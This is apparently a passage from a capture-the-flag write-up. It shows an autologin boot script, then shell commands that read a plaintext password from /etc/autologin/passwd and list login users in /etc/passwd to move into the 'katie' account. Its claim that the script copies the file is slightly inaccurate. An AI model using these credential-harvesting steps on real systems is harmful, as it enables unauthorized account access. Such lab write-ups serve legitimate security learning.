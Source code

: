 ```bash
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end scriptnginx@spectra ~ $
```

As you can see here, the content of `/mnt/stateful_partition/etc/autologin/passwd` is being copied to `/etc/autologin/passwd` when the script is run.

So, let's check if `/etc/autologin/passwd` exists!

```bash
nginx@spectra ~ $ file /etc/autologin/passwd
file /etc/autologin/passwd
/etc/autologin/passwd: ASCII text
nginx@spectra ~ $ cat /etc/autologin/passwd
cat /etc/autologin/passwd
SummerHereWeCome!!
nginx@spectra ~ $
```

Looks like we got a password, NICE!

```bash
nginx@spectra ~ $cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
nginx@spectra ~ $
```

After some hit and try, I came out that this password belongs to user `katie`.
